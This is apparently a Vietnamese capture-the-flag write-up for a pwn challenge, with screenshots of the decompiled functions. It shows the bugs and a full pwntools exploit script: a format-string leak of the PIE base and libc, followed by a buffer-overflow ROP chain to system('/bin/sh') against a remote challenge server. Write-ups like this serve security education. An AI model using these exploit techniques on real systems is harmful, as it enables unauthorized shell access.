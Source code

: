 - rand_fun : 

với giá trị chẵn thì sẽ thực thi hàm ```bòf``` còn lẻ thì sẽ thực thi hàm ```fsb```
![image](https://hackmd.io/_uploads/BkIbfCorJx.png)


- fsb : 

ta thấy ngay buf fsb ở đây luôn , tuy nhiên ở đây input chỉ có 15 kí tự 

![image](https://hackmd.io/_uploads/HJ3uGCoByl.png)

- bof

giống như tên hàm , ở đây sẽ có bug ```bof```
![image](https://hackmd.io/_uploads/r1-zQCoS1g.png)


--------

- khai thác : 

- vì ở đây NX bật nên không dùng shellcode được ở bài này (có thể nếu tận dụng bof -> dùng syscall mprotect) , tuy nhiên sẽ hơi lâu nên ta sẽ xài cách khác 

-  chương trình có sẵn ```system(/bin/sh)``` nên ta lấy thằng này luôn cho lẹ -> không cần địa chỉ libc cũng được , nhưng nếu không có libc address thì ta sẽ không có gadget để control được ```RDI``` , mục đích của ta là cần địa chỉ của ```/bin/sh``` vào RDI



![image](https://hackmd.io/_uploads/Sy98VRsHke.png)

- vì vậy ta cũng phải cần libc_address , leak xong libc thì dùng hàm bof để lấy shell thôi
- 1 vấn đề nữa là ở đây nó random giá trị để thực thi 1 trong 2 hàm kia , ta có thể dùng ```ctype``` trong python để lấy giá trị đó cho chính xác còn ở đây thì mình brute_force bằng tay :)))  vì chỉ có 2 giá trị nên brute_force cũng nhanh

script 
```python
#!/usr/bin/python3
from time import time
from ctypes import CDLL
from pwn import *
context.binary = exe = ELF('./chal_patched',checksec=False)
libc =  ELF('./libc6_2.35-0ubuntu3.8_amd64.so')
p = process()
p = remote('23.146.248.230', 12355)
#gdb.attach(p,gdbscript='''
#           b*bof+61
#           ''')
p.sendlineafter(b'fsb> ',b'%9$p')
exe.address = int(p.recv(14),16) - 0x12d9
print(hex(exe.address))
p.sendlineafter(b'fsb> ',b'%7$saaaa' + p64(exe.got.puts))
leak_puts = u64(p.recv(6).ljust(8,b'\x00'))
libc.address = leak_puts - libc.sym.puts
print("libc: ",hex(libc.address))
pop_rdi = 0x000000000002a3e5 + libc.address
bin_sh = next(libc.search('/bin/sh\x00'))
input()
p.sendline(b'a'*16 + p64(0) + p64(pop_rdi) + p64(bin_sh) + p64(pop_rdi+1) +p64(libc.sym.system))
p.interactive()
```
